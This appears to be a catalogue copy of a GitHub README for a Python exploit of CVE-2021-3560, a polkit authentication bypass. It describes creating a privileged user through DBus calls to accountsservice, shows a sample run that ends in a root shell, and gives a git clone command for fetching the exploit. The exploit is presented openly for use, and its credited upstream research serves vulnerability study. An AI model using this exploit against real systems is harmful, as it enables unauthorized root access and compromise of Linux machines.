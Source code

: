 # Polkit-exploit

Privilege escalation with polkit - CVE-2021-3560

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Almorabea](https://github.com/Almorabea) |
| Url      | [https://github.com/Almorabea/Polkit-exploit](https://github.com/Almorabea/Polkit-exploit)                                               |
| Stars    | 107                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# Polkit-exploit - CVE-2021-3560
Privilege escalation with polkit - CVE-2021-3560

# Summary 
CVE-2021-3560 is an authentication bypass on polkit, which allows unprivileged user to call privileged methods using DBus, in this exploit we will call 2 privileged methods provided by accountsservice (CreateUser and SetPassword), which allows us to create a priviliged user then setting a password to it and at the end logging as the created user and then elevate to root.

# Exploit Code Author
Ahmad Almorabea
@almorabea
http://almorabea.net

# Usage
```
test@ubuntu:~/Desktop$ python3 CVE-2021-3560.py 
**************
Exploit: Privilege escalation with polkit - CVE-2021-3560
Exploit code written by Ahmad Almorabea @almorabea
Original Exploit Author: Kevin Backhouse 
For more details check this: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/#history
[+]Starting the Exploit 
[+] User Created with the name of ahmed
[+] Timed out at: 0.008446890996407191
[+] Timed out at: 0.008934336684707084
[+] Exploit Completed, your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root 
bash: cannot set terminal process group (46983): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/home/test/Desktop# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/home/test/Desktop# whoami
root
root@ubuntu:/home/test/Desktop#
```

# Demo
GUI Authentication
******
![](CVE-2021-3560-Auth-On.gif)

Terminal Authentication
******
![](CVE-2021-3560-Root.gif)

# Credit
Kevin Backhouse (https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/)



## Get the content

```
git clone https://github.com/Almorabea/Polkit-exploit
cd Polkit-exploit
```

{% embed url="https://github.com/Almorabea/Polkit-exploit" %}

<figure><img src="https://avatars.githubusercontent.com/u/13198863?v=4" alt=""><figcaption><p>Almorabea</p></figcaption></figure>
